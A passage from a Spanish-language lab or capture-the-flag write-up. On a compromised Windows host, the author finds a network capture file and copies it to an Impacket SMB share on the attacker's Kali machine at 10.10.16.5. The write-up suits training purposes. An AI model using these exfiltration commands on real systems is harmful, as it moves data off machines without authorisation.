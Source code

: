 ```powershell
PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301> ls

    Directory C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/23/2024   4:10 AM         292244 network_capture_2024.pcapng

PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301>
```

Nos volveremos a montar un servidor SMB en nuestra Kali para compartirnos este archivo encontrado.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Copiaremos el archivo mencionado al recurso compartido SMB que tenemos en nuestra Kali.

{% code overflow="wrap" %}
```powershell
PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301> copy 292244 network_capture_2024.pcapng \\10.10.16.5\smbFolder\292244 network_capture_2024.pcapng
```
{% endcode %}

Abriremos la captura de Wireshark obtenida, verificaremos el siguiente resultado.

<figure><img src="../../.gitbook/assets/imagen (28) (1) (1).png" alt=""><figcaption></figcaption></figure>
